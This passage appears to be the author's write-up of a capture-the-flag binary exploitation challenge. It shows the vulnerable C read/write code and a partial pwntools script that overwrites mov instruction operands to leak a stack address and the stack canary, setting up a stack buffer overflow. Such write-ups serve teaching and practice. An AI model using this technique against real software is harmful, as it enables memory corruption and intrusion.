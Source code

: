 The intended and simplest target to overwrite is the count in the read and write functions.
This way we can get leaks and stack buffer overflows.
You can also see in the source code that I specifically cast them to char to avoid issues with
too long writes.
```c
        size_t len = sizeof poni - 1;
        char to_write = len;
        write(1, poni, to_write);
        
        int size = BUF_SIZE;
        char s[BUF_SIZE] = {};
        char to_read = size-1;
        read(0, s, to_read);
```

We can see that the `movq $4, ...` instruction is at offset main+3627. This instruction
is 8 bytes long, where the 4 bytes we move are at the. So we want to write poni at address
main+3627+4.

![image](/files/bts/imgs/ppv_target1.png)


And analogously we do the same for movl before the read function. Notice that there
the compiler used a different instruction that is 7 bytes long. So we do +3 when
calculating the offsets instead.

![image](/files/bts/imgs/ppv_target2.png)


```python
    # Overwrite the mov instructions.
    bin_base_offset -= 0x20
    read_movl_offset = exe.sym['main']+3670+3 - exe.address
    io.sendline(f"{bin_base_offset+read_movl_offset}".encode())

    bin_base_offset -= 0x20
    write_movq_offset = exe.sym['main']+3627+4 - exe.address
    io.sendline(f"{bin_base_offset+write_movq_offset}".encode())

    io.recvuntil(b"poni")
    io.recv(21)
    stack = u64(io.recv(8))
    canary = u64(io.recv(8))
    info(f"stack: {hex(stack)}")
    info(f"canary: {hex(canary)}")
```
